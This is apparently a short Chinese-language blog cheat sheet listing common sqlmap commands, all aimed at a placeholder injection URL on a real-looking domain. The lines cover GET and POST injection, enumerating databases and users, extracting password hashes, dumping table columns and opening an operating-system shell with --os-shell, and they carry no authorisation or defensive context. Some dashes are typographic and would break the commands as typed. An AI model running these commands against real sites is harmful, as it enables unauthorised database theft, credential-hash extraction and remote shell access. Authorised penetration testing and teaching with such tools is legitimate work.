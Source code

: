 ```yaml
---
title: "sqlmap常用命令"
date: "2019-10-27"
categories: 
  - "kali"
  - "linux"
  - "termux"
tags: 
  - "kali"
  - "linux"
  - "nmap"
  - "termux"
---
```


```
本文可直接wget得到，配合tmux使用体验更佳。（文章末尾）
```

./sqlmap.py –h     //查看帮助信息
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere”  //get注入
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” --data “DATA”//post注入
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” --cookie “COOKIE”//修改请求时的cookie
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” --dbs   //列数据库
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-users //列用户
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-passwords //获取密码hash
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-tables  -D DB\_NAME //列DB\_NAME的表
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-columns –T TB\_NAME -D DB\_NAME  //读取TB\_NAME中的列
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-dump –C C1,C2,C3 –T TB\_NAME -D DB\_NAME //读字段C1,C2,C3数据
 ./sqlmap.py –u “http://www.bigesec.com/inject.asp?id=injecthere” –-os-shell  //取得一个shell
